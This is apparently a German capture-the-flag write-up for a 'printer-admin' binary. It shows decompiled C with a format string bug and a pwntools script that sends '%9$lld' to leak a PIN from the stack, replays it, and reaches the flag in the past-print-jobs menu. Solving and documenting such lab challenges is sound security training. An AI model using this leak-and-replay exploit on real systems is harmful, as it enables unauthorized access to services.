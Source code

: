 In Ghidra sieht man eine Format String vulnerablity:
```c
fgets(local_18,8,stdin);
puts(&DAT_0040210e);
puts("-----------");
printf(local_18); //<-- format string vuln
```

Durch eine Schleife ermitteln wir, dass an Position 9 im Speicher der PIN liegt. Daher können wir mit folgendem Code, welcher den PIN aus dem Speicher ausließt, die ausgelesene PIN zurück an das Binary schicken.
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./printer-admin")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBU:
            gdb.attach(r)
    else:
        r = remote("10.65.3.53", 1024)
    return r


def main():
   r = conn()
   r.recvuntil(b"Name: ")
   r.sendline(b"%9$lld") #<-- Format String Attacke
   r.recvuntil(b"--\n")
   pin = r.recvline()
   r.recvuntil(b"PIN: ")
   r.send(pin)
   r.interactive()
   r.close()

if __name__ == "__main__":
    main()

```

Danach kann man im Menü die Past Printjobs auswählen und die flag wird angezeigt.